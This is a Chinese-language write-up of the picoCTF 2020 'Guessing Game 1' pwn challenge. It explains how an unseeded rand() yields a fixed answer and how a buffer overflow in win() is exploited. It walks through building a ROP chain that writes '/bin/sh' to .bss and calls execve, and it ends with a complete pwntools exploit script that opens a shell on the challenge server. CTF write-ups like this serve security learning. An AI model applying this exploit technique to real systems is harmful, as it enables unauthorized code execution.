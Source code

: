 ```yaml
---
title: "picoCTF2020-Guessing-Game-1"
date: 2020-10-14
draft: false
tags: ["picoCTF", "CTF", "pwn"]
categories: ["picoCTF"]
---
```


這題目花了我好幾個小時

https://play.picoctf.org/events/3/challenges/challenge/90

## 開始

我們先看看Makefile
```make
all:
  gcc -m64 -fno-stack-protector -O0 -no-pie -static -o vuln vuln.c
clean:
  rm vuln
```
這個程式可能有 Buffer Overflow，它用 static link，不能改 plt, got

看看 `do_stuff` 和 `get_random`
```c
long get_random() {
  return rand() % BUFSIZE;
}
int do_stuff() {
  long ans = get_random();
  ans = increment(ans);
  int res = 0;

  printf("What number would you like to guess?\n");
  char guess[BUFSIZE];
  fgets(guess, BUFSIZE, stdin);

  long g = atol(guess);
  if (!g) {
    printf("That's not a valid number!\n");
  } else {
    if (g == ans) {
      printf("Congrats! You win! Your prize is this print statement!\n\n");
      res = 1;
    } else {
      printf("Nope!\n\n");
    }
  }
  return res;
}

```
輸入用 `fgets`，沒有 Buffer Overflow

但`rand` 沒有初始化，它的值一直是固定的

用 gdb 可以很快找到`ans`的值

![](/img/picoCTF2020-Guessing-Game-1/random_num.png)
`ans` 固定為 `84`

可以進到 `win` 裡面了
![](/img/picoCTF2020-Guessing-Game-1/access_first_level.png)

## 決定攻擊手法

`win` 裡面有Buffer Overflow，明明`BUFSIZE`只有100，卻可以填360個字元
```c++
// BUFSIZE = 100
void win() {
  char winner[BUFSIZE];
  printf("New winner!\nName? ");
  fgets(winner, 360, stdin);
  printf("Congrats %s\n\n", winner);
}
```

找到 padding
![](/img/picoCTF2020-Guessing-Game-1/offset.png)
```python
payload = 'a'*120
```

問題來了，我們可以用什麼方法破解它?

1. Shellcode<br>
    不行，有開 NX
2. return to libc<br>
    它用 static link
3. Format string<br>
    printf 看起來不能利用
4. ROP<br>
    好像可以

**決定用 ROP**

## 編寫 ROP chain

使用 ROPgadget
找不到 `pop eax`，只有 `pop rax`
![](/img/picoCTF2020-Guessing-Game-1/cannot_find_pop_eax.png)

把 `/bin/sh` 放到 `.bss` 段
```python
payload += flat([pop_rax, buf, pop_rdx, '/bin', mov_drax_edx, \
                 pop_rax, buf+4, pop_rdx, '/sh\x00', mov_drax_edx])
```

system call execve 參數
- eax: 11
- ebx: 字串 `/bin/sh` 的位置
- ecx: 0
- edx: 0
```python
payload += flat([pop_rbx, buf, pop_rax, 11, pop_rdx, 0, int_0x80])
```
> rcx 找不到適合的 gadget，只好先不理它，反正它常常是0

> 想知道更多system call用法，可以到這個網站
> https://syscalls.w3challs.com/?arch=x86

## 暫存器尺寸

原本以為沒事了，沒想到...
![](/img/picoCTF2020-Guessing-Game-1/reg_size_problem.png)
輸入的資料會黏在一起

我們輸入的是 32-bit，但卻用64-bit的暫存器，所以必須在資料後面加上4個`\x00`

如果你用flat，可以在每個指令後面都加入一個0
```python
flat([pop_rbx, 0, buf, 0, pop_rax, 0, 11, 0, pop_rdx, 0, 0, 0, int_0x80, 0])
```

## 成果

```python
from pwn import *

context.arch = 'i386'
#r = process('./vuln')
r = remote('jupiter.challenges.picoctf.org', 39936)

s = r.recvuntil('?\n')

r.sendline('84')

buf = 0x6bc3a0
pop_rax = 0x4163f4
pop_rbx = 0x400ed8
pop_rdx = 0x44a6b5
mov_drax_edx = 0x48dd72
mov_rax_rdx = 0x41b570
int_0x80 = 0x468fea

payload = 'a'*120
payload += flat([pop_rax, 0, buf, 0, pop_rdx, 0, '/bin',0 , mov_drax_edx, 0, 
                 pop_rax, 0, buf+4, 0, pop_rdx, 0, '/sh\x00',0 , mov_drax_edx, 0])
payload += flat([pop_rbx, 0, buf, 0, \
                 pop_rax, 0, 11, 0, pop_rdx, 0, 0, 0, int_0x80, 0])
# 有夠醜

raw_input()

r.recvuntil('? ')
r.sendline(payload)

r.interactive()
```

![](/img/picoCTF2020-Guessing-Game-1/final.png)
